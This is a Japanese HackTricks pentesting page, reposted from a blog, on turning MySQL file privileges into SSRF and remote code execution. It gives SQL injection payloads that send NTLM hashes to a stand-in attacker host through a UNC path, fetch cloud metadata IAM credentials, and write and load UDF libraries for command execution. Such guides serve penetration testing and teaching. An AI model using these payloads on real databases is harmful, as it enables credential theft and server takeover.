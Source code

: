# MySQLファイル特権からSSRF/RCEへ

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業で働いていますか？** **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングのトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>

**投稿はこちらからコピーしました** [**https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/#mysqlmariadbpercona**](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/#mysqlmariadbpercona)

### LOAD\_FILE/LOAD DATA/LOAD XMLを使用したSSRF

すべてのSQL Out of Bandデータの外部流出記事では、ネットワークリクエストを行うために`LOAD_FILE()`文字列関数を使用します。この関数自体には、実行されるオペレーティングシステムとデータベースの起動設定に基づく制限があります。

たとえば、`secure_file_priv`グローバル変数が設定されていない場合、[デフォルト値は`/var/lib/mysql-files/`に設定されます](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html)。これは、`LOAD_FILE('filename')`や`LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename`のような関数を使用して、`/var/lib/mysql-files/`ディレクトリからファイルを読み取ることしかできないことを意味します。このディレクトリ以外のファイルを読み取るためには、`secure_file_priv`オプションを`""`に設定する必要があります。これは、データベースの設定ファイルを更新するか、データベースサービスの起動パラメータとして`--secure_file_priv=""`を渡すことでのみ行うことができます。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

ただし、`secure_file_priv`が`""`に設定されている場合、現在のデータベースユーザーの`mysql.user`で`file_priv`が`Y`に設定されている場合、システム上の他のファイルを読み取ることができるはずです。ただし、これらの関数を使用してネットワーク呼び出しを行うことは、非常にオペレーティングシステムに依存しています。これらの関数はファイルの読み取りのみを目的としているため、ネットワークに関連する呼び出しは、[Windowsの`CreateFileA` APIがファイルにアクセスする際にUNC命名規則を理解するため、Windowsホスト上のUNCパスにのみ行うことができます](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)。

したがって、ターゲットのデータベースがWindowsマシン上で実行されている場合、インジェクションクエリ`x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //`は、[WindowsマシンがNTLMv2ハッシュを送信しようとして、攻撃者が制御する`\\attackerserver.example.com`に認証しようとします](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html)。

このサーバーサイドリクエストフォージェリ（SSRF）は、便利ですが、TCPポート445に制限されています。ポート番号を制御することはできませんが、読み取り権限が完全に設定された共有から情報を読み取ることができます。また、以前の研究で示されているように、この制限付きのSSRF機能を使用してハッシュを盗み、それらをリレーしてシェルを取得することもできるため、確かに便利です。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### ユーザー定義関数を使用したRCE

MySQLデータベースのもう一つのクールなテクニックは、MySQL内からアクセスできる外部ライブラリファイルに存在するユーザー定義関数（UDF）を使用することです。

SQLインジェクションを使用して、追加のクエリを介して呼び出すことができるユーザー定義関数を含むライブラリ（`.so`または`.dll`、LinuxまたはWindowsによる）を**作成**することができます。

ただし、これにはいくつかの制限があります。`select @@version`で識別できるMySQLのバージョンに基づいて、プラグインをロードできるディレクトリが制限されています。MySQLのバージョン`v5.0.67`未満では、`plugin_dir`変数が設定されていない場合、システムパスからライブラリファイルをロードすることができました。これは現在変更されており、新しいバージョンでは**`plugin_dir`**変数が`/usr/lib/mysql/plugin/`のような値に設定されています。これは通常、rootが所有しています。

基本的には、MySQLにカスタムライブラリをロードし、SQLインジェクションを介してロードされたライブラリから関数を呼び出すためには、次の条件が必要です。

* SQLインジェクションを介して**`@@plugin_dir`**で指定された場所に**書き込む**機能
* 現在のデータベースユーザーの`mysql.user`で**`file_priv`**が**`Y`**に設定されていること
* ネットワークまたはWebアプリケーション
代わりに、特定のデータベースにHTTPリクエストを行う機能を提供するために、UDFライブラリが作成されています。[MySQL User-defined function (UDF) for HTTP GET/POST](https://github.com/y-ken/mysql-udf-http)を使用して、データベースにHTTPリクエストを行うことができます。以下の構文を使用します。

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

また、[独自のUDFを作成し、それをポストエクスプロイテーションにも使用することもできます。](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

いずれの場合も、ライブラリをデータベースサーバーに転送する必要があります。これは複数の方法で行うことができます。

1. MySQLの`hex()`文字列関数や、`xxd -p filename.so | tr -d '\n'`のような方法を使用して、ライブラリの内容を16進数形式に変換し、`x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`を使用して`@@plugin_dir`ディレクトリにダンプします。
2. 代わりに、`filename.so`の内容をBase64に変換し、`x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`を使用します。

`@@plugin_dir`が書き込み可能でない場合、バージョンが`v5.0.67`以上であれば、別のパスに書き込み、UDFライブラリをそこからロードすることができます。

* `lib_mysqludf_sys`ライブラリの場合 - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* `mysql-udf-http`ライブラリの場合 - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

これを自動化するために、SQLMapを使用することができます。SQLMapは、[カスタムUDFの使用をサポートしています。`--udf-inject`オプション](https://github.com/sqlmapproject/sqlmap/wiki/Usage)を使用します。

Blind SQLインジェクションの場合、UDF関数の出力を一時テーブルにリダイレクトしてから、そこからデータを読み取るか、[DNSリクエストを`sys_eval`または`sys_exec`のcurlコマンド内に隠し込む](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)ことができます。
